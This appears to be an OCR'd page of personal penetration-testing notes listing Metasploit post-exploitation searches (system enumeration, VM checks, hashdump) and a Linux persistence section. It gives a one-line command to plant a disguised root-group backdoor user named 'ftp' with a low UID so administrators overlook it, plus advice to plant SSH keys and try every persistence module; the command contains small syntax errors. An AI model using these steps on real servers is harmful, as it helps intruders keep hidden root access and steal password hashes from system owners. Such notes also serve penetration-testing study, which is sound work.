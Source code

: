 `msf6> search enum_system`

`msf6> search checkcontainer`

`msf6> search checkvm`

`msf6> search enum_users_history`

`msf6> search hashdump`

## Persistence	on Linux
after exploitation and privilege escalation

-> for persistence you can create a backdoor user but this only works if target server has ssh or remote access enabled
The user should be difficult to identify like call the user "ftp" `useradd -m ftp -s /bin/bash;passwd ftp;usermod aG root ftp;usermod -u 15 ftp;usermod -g 15` 

-> for persistence you can create a ssh keys. create a username and in that username create a new ssh keys

`msf6> search platform:linux persistence`-> try all displayed modules if possible!

to access ssh with a private key `ssh -i private-key root@$ip`









